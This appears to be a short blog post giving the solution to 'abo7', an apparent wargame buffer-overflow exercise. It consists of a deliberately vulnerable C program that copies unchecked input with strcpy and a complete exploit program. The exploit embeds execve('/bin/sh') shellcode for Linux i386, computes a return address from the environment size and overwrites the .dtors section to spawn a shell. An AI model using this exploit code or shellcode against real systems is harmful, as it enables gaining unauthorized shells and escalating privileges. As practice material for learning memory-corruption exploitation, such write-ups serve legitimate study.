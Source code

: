 ```yaml
---
layout: post
title: "abo7.c solution"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

vul.c
---

	char buf[256]={1};

	int main(int argv,char **argc) {
		strcpy(buf,argc[1]);
	}

exp.c
---
	#include <stdio.h>
	#include <string.h>
	#include <unistd.h>
	#include <stdlib.h>

	#define BUF 	477	// 119*4 + 1 (offset for .dtors section)

	char sc[] = /* linux/i386 shellcode */
	"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";

	int main(int argc, char *argv[])
	{
	    char dotname[128];
	    sprintf(dotname,"./%s",argv[1]);
	    printf("%s\n",dotname);
		char buf[BUF];
		int i, ret;

		/* address pointer */
		int *ap = (int *)(buf);

		/* user environment */
		extern char **environ;
		char **ep;
		int env_size = 0;

		ep = environ;
		while (*ep) {
			env_size += strlen(*ep);
			ep++;
			env_size++;
		}

		/* calculate the ret address */
		ret = 0xbffffffa - strlen(sc) - strlen(dotname) - env_size;

		fprintf(stderr, "Using env size: %d\n", env_size);
		fprintf(stderr, "Using offset for .dtors: %d\n", BUF);
		fprintf(stderr, "Using ret: 0x%X\n", ret);

		/* prepare buf for the overflow with the ret address */
		for (i = 0; i < BUF - 1; i += 4)
			*ap++ = ret;
		*ap = 0x0;

		/* run the vulnerable program */
		execl(dotname, argv[1], buf, sc, NULL);
		perror("execl");
	}
